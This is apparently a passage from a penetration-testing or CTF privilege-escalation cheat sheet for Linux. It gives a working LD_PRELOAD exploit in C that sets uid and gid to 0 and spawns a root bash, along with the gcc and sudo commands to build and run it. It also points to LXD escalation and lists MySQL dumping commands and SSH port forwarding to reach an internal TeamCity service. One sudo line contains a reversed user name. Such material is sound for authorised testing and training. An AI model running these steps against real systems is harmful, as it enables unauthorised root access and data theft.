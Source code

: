```bash
sudo -h ssalg-gnikool /bin/bash
```

- if `env_keep+=LD_PRELOAD` is set, make shell.c as follows:

  ```c
  #include <stdio.h>
  #include <sys/types.h>
  #include <stdlib.h>void _init() {
   unsetenv("LD_PRELOAD");
   setgid(0);
   setuid(0);
   system("/bin/bash");
  }
  ```

  then,

  ```bash
  gcc -fPIC -shared -o shell.so shell.c -nostartfiles
  sudo LD_PRELOAD=/home/webdeveloper/shell.so <command>
  ```


### lxd

If uid lxd is enabled, read [this](https://www.hackingarticles.in/lxd-privilege-escalation/)

### SQL expose

on attacker machine,

```bash
mysql -u root -p
show databases;
use <database>;
show tables;
SELECT * FROM <table>;
```

### Enumerate services (Ex. TeamCity)

```bash
<target> $ ss -tulpn
```

If you find ports only for local, Ex. **[::ffff:127.0.0.1]:8111**

```bash
<target> $ wget http://127.0.0.1:8111
```

```bash
ssh -L 8111:127.0.0.1:8111 <user>@<IP> -i id_rsa
```

on Browser, search `http://localhost:8111`
